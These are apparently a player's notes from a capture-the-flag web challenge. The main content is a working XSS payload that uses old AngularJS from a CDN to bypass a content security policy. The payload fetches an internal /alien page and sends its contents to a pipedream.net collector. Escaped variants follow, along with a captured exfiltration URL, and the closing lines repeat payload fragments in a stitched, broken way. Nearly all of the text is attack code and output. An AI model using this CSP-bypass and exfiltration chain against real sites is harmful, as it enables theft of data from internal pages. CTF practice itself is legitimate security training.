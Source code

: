 ```json
{"feedback":"\"><script src=\"https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.0.8/angular.js\"></script> <div ng-app ng-csp>{{$eval.constructor('alert(1)')()}}</div>"
}
```
 got xss to work

 https://book.hacktricks.xyz/pentesting-web/content-security-policy-csp-bypass

```js
fetch("http://127.0.0.1:1337/alien", {mode: "no-cors"}).then(response => response.text()).then(body=>window.location=("https://enlvqayobytkwn2.m.pipedream.net/?"+body.slice(body.search("CHTB"), body.search("CHTB")+50)))
```

escaped:

```js
fetch(\"http://127.0.0.1:1337/alien\", {mode: \"no-cors\"}).then(response => response.text()).then(body=>window.location=(\"https://enlvqayobytkwn2.m.pipedream.net/?\"+body.split(\'\n\')[18]))
```

substring did not work so....

```json

{"feedback":"\"><script src=\"https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.0.8/angular.js\"></script> <div ng-app ng-csp>{{$eval.constructor('fetch(\"http://127.0.0.1:1337/alien\", {mode: \"no-cors\"}).then(response => response.text()).then(body=>window.location=(\"https://enlvqayobytkwn2.m.pipedream.net/?\"+body[body.search(\"CHTB\")]+body[body.search(\"CHTB\")+1]+body[body.search(\"CHTB\")+2]+body[body.search(\"CHTB\")+3]+body[body.search(\"CHTB\")+4]+body[body.search(\"CHTB\")+5]+body[body.search(\"CHTB\")+6]+body[body.search(\"CHTB\")+7]+body[body.search(\"CHTB\")+8]+body[body.search(\"CHTB\")+9]+body[body.search(\"CHTB\")+10]+body[body.search(\"CHTB\")+11]+body[body.search(\"CHTB\")+12]+body[body.search(\"CHTB\")+13]+body[body.search(\"CHTB\")+14]+body[body.search(\"CHTB\")+15]+body[body.search(\"CHTB\")+16]+body[body.search(\"CHTB\")+17]+body[body.search(\"CHTB\")+18]+body[body.search(\"CHTB\")+19]+body[body.search(\"CHTB\")+20]+body[body.search(\"CHTB\")+21]+body[body.search(\"CHTB\")+22]+body[body.search(\"CHTB\")+23]+body[body.search(\"CHTB\")+24]+body[body.search(\"CHTB\")+25]+body[body.search(\"CHTB\")+26]+body[body.search(\"CHTB\")+27]+body[body.search(\"CHTB\")+28]+body[body.search(\"CHTB\")+29]+body[body.search(\"CHTB\")+30]+body[body.search(\"CHTB\")+31]+body[body.search(\"CHTB\")+32]+body[body.search(\"CHTB\")+33]+body[body.search(\"CHTB\")+34]+body[body.search(\"CHTB\")+35]+body[body.search(\"CHTB\")+36]+body[body.search(\"CHTB\")+37]+body[body.search(\"CHTB\")+38]+body[body.search(\"CHTB\")+39]+body[body.search(\"CHTB\")+40]+body[body.search(\"CHTB\")+41]+body[body.search(\"CHTB\")+42]+body[body.search(\"CHTB\")+43]))')()}}</div>"
}
```

https://enlvqayobytkwn2.m.pipedream.net/?%3Chtmllang=%22en%22%3E%3Chead%3E%3Cmetacharset=%22UTF-8%22%3E%3Ctitle%3ETheGalacticTimes%3C/title%3E%3Cmetaname=%22viewport%22content=%22width=device-width,initial-scale=1,user-scalable=no%22%3E%3Clinkrel=%22icon%22href=%22/static/images/favicon.png%22%3E%3Clinkrel=%22stylesheet%22href=%22/static/css/bootstrap.min.css%22%3E%3Clinkrel=%22stylesheet%22href=%22/static/css/main.css%22%3E%3C/head%3E%3Cbody%3E%3Cdivclass=%27clouds%27%3E%3Cdivclass=%22main__wrapper%22%3E%3Cmain%3E%3Ch1%3E%3Cahref=%22/alien%22%3E%E2%8F%81%E2%8A%91%E2%9F%92%E2%98%8C%E2%8F%83%E2%8C%B0%E2%8F%83%E2%98%8A%E2%8F%81%E2%9F%9F%E2%98%8A%E2%8F%81%E2%9F%9F%E2%8B%94%E2%9F%92%E2%8C%87%3C/a%3E%3C/h1%3E%3Caside%3E%3Cdiv%3E%3Cdivclass=%22issue%22%3E%E2%9F%9F%E2%8C%87%E2%8C%87%E2%8E%8D%E2%9F%92

+body[body.search(\"CHTB\")+2]+body[body.search(\"CHTB\")+3]+body[body.search(\"CHTB\")+4]+body[body.search(\"CHTB\")+5]+body[body.search(\"CHTB\")+6]+body[body.search(\"CHTB\")+7]+body[body.search(\"CHTB\")+8]+body[body.search(\"CHTB\")+9]+body[body.search(\"CHTB\")+10]+body[body.search(\"CHTB\")+11]+body[body.search(\"CHTB\")+12]+body[body.search(\"CHTB\")+13]+body[body.search(\"CHTB\")+14]+body[body.search(\"CHTB\")+15]+body[body.search(\"CHTB\")+16]+body[body.search(\"CHTB\")+17]+body[body.search(\"CHTB\")+18]+body[body.search(\"CHTB\")+19]+body[body.search(\"CHTB\")+20]+body[body.search(\"CHTB\")+21]+body[body.search(\"CHTB\")+22]+body[body.search(\"CHTB\")+23]+body[body.search(\"CHTB\")+24]+body[body.search(\"CHTB\")+25]+body[body.search(\"CHTB\")+26]+body[body.search(\"CHTB\")+27]+body[body.search(\"CHTB\")+28]+body[body.search(\"CHTB\")+29]+body[body.search(\"CHTB\")+30]+body[body.search(\"CHTB\")+31]
+body[body.search(\"CHTB\")+32]+body[body.search(\"CHTB\")+33]+body[body.search(\"CHTB\")+34]+body[body.search(\"CHTB\")+35]+body[body.search(\"CHTB\")+36]+body[body.search(\"CHTB\")+37]+body[body.search(\"CHTB\")+38]+body[body.search(\"CHTB\")+39]+body[body.search(\"CHTB\")+40]+body[body.search(\"CHTB\")+41]+body[body.search(\"CHTB\")+42]+body[body.search(\"CHTB\")+43]